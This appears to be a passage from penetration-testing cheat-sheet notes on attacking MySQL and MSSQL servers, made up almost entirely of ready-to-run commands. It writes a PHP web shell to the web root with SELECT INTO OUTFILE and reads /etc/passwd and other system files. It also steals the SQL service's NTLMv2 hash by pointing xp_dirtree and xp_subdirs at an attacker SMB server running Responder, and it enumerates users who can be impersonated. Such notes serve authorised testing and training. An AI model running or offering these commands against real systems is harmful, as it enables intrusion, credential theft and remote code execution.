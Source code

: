 ```mssql
RECONFIGURE
GO
```

#### Write Local File 
`SELECT INTO OUTFILE`
could possible be able to write a php shell.

```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

```shell-session
show variables like "secure_file_priv";
```

#### Read File
```shell-session
select LOAD_FILE("/etc/passwd");
```
```cmd-session
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

#### Capture MSSQL Service Hash
We can steal the MSSQL Service hash using `xp_subdirs` and `xp_dirtree`  undocumented stored procedures, which use SMB to retrieve a list of child directories under a specified parent directory from the file system. When we point one of these procedures and point it to our smb server, the directory listing functionality will force server to authenticate and send NTLMv2 hash of the service account that is running SQL server.

`Pointed towards responder`
```shell-session
sudo responder -I tun0
```
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

### Impersonating Existing Users with MSSQL
#### Identifying Users we can Impersonate
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
#### Verifying Current User and Role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
